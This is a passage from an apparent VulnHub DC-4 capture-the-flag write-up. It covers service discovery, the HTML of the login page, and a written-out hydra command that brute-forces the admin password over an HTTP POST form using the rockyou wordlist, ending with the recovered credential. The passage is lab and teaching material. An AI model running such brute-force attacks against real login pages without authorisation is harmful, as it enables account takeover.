 We can see that two services running; `SSH` on Port 22 and `HTTP` on Port 80.

### HTTP
Visiting `192.168.2.104` greets us with a login panel.

![Login][Login]

Trying common credentials such as `admin`/`admin` or `admin`/`password` yields no result. As a result, we'll have to 
brute-force our login.

### Brute-forcing Login To The Panel
Checking the source code of the login page, we can see how our login credentials are handled.

```html
<!DOCTYPE html>
<html>
<head>
<title>System Tools</title>
<link rel="stylesheet" href="css/styles.css">
</head>
<body>
    <div class="container">
        <div class="inner">
            <h2>Admin Information Systems Login</h2>
            <form action="login.php" method="post">
                Username:

                <input type="text" name="username" value=""><p>
                Password:

                <input type="password" name="password" value=""><p>
                <input type="submit" value="Submit">
            </form>
        </div>
    </div>
</body>
</html>
```

With this info in mind, we'll use `hydra` to brute-force our login. Since we don't have any ideas on what the username 
might be, it's a safe bet to use `admin` as a starter. Do note that `rockyou.txt` was copied from 
`/usr/share/wordlists`.

```
$ hydra -l admin -P rockyou.txt 192.168.2.104 http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -F
[80][http-post-form] host: 192.168.2.104   login: admin   password: happy
```

Our username choice was right and `hydra` found a password matching that `admin`; `happy`. Using these credentials in 
the login panel, we're now greeted with two options; `Command` and `Click to Logout`.


[DCAU]:                 https://twitter.com/DCAU7
[Login]:                /images/2019-09-12-vulnhub-dc_4/Login.png
[Admin Panel - 1]:      /images/2019-09-12-vulnhub-dc_4/Admin%20Panel%20-%201.png
[Admin Panel - 2]:      /images/2019-09-12-vulnhub-dc_4/Admin%20Panel%20-%202.png
[Admin Panel - 3]:      /images/2019-09-12-vulnhub-dc_4/Admin%20Panel%20-%203.png
[Burp Suite - 1]:       /images/2019-09-12-vulnhub-dc_4/Burp%20Suite%20-%201.png
[Burp Suite - 2]:       /images/2019-09-12-vulnhub-dc_4/Burp%20Suite%20-%202.png
[Burp Suite - 3]:       /images/2019-09-12-vulnhub-dc_4/Burp%20Suite%20-%203.png
[GTFOBin]:              https://gtfobins.github.io/gtfobins/tee/#sudo